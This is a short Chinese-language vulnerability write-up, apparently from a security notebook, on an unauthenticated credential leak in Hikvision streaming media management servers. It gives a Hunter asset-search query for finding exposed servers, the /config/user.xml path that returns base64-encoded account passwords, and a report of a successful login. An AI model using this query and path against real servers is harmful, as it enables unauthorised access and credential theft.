 # 海康威视流媒体管理服务器 user.xml 账号密码泄漏漏洞

# 一、漏洞简介
HIKVISION 流媒体管理服务器配置文件未做鉴权，攻击者通过漏洞可以获取网站账号密码

# 二、影响版本
+ HIKVISION 流媒体管理服务器

# 三、资产测绘
+ hunter：`web.body="流媒体管理服务器"&&web.body="杭州海康威视系统技术有限公司 版权所有"`

![1691852350086-59553de6-b647-4dde-8c1b-77f90d88762d.png](./img/W2pLsDAqUjtLCdE8/1691852350086-59553de6-b647-4dde-8c1b-77f90d88762d-861201.png)

+ 登录页面

![1691852369924-5fa9d9eb-7580-4355-bf97-6d42fcbf083f.png](./img/W2pLsDAqUjtLCdE8/1691852369924-5fa9d9eb-7580-4355-bf97-6d42fcbf083f-150590.png)

# 四、漏洞复现
```plain
  /config/user.xml
```

![1691852415460-c3a7cb87-9703-4d03-b952-fbd260cb3f71.png](./img/W2pLsDAqUjtLCdE8/1691852415460-c3a7cb87-9703-4d03-b952-fbd260cb3f71-670431.png)

账号密码为base64加密

测试登录，登录成功

![1691852465095-1abcb3c1-7dc6-4873-b8e8-a24ea2499ef4.png](./img/W2pLsDAqUjtLCdE8/1691852465095-1abcb3c1-7dc6-4873-b8e8-a24ea2499ef4-075512.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xz0uizp3x0yzr3kl>